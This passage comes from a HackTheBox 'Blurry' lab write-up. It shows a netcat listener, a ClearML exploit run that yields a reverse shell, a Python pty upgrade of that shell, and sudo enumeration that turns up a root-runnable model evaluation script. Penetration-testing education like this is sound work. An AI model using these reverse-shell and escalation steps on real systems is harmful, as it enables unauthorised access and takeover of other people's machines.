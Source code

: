 Before executing the exploit above, we need to start a listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackthBox/Machines/Blurry]
└─$nc -lvnp 4444 
listening on [any] 4444 ...
```
Next, we need to execute the exploit and wait for the process to finish to gain a reverse shell.
```bash
┌──(pentester㉿kali)-[~/…/HackthBox/Machines/Blurry/Misc Files]
└─$python3 clearml-exploit.py
ClearML Task: created new task id=9b9c58ae60c84b2a978bb71245ca9abb
2024-09-22 11:47:24,152 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/9b9c58ae60c84b2a978bb71245ca9abb/output/log
CLEARML-SERVER new package available: UPGRADE to v1.16.2 is recommended!
Release Notes:
### Bug Fixes
- Fix no graphs are shown in workers and queues screens
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
```

If we go back to our listener we will notice that we have obtained a reverse connection from the target. We can upgrade this simple shell to a tty shell as shown below.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackthBox/Machines/Blurry]
└─$nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.19] 44006
bash: cannot set terminal process group (2648): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ python3 -c 'import pty;pty.spawn("/bin/bash")' 
python3 -c 'import pty;pty.spawn("/bin/bash")'
jippity@blurry:~$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(pentester㉿kali)-[~/Desktop/HackthBox/Machines/Blurry]
└─$stty raw -echo;fg
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm
jippity@blurry:~$ 
```
We have obtained a shell as the user jippity. We can use this to read the user flag and enumerate the system further.

## Post Exploitation

A quick enumeration of the user's sudo rights reveals that jipitty can run the /usr/bin/evaluate_model script on any file in the /models/ directory having the pth extension
```bash
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
jippity@blurry:~$ file /usr/bin/evaluate_model
/usr/bin/evaluate_model: Bourne-Again shell script, ASCII text executable
```
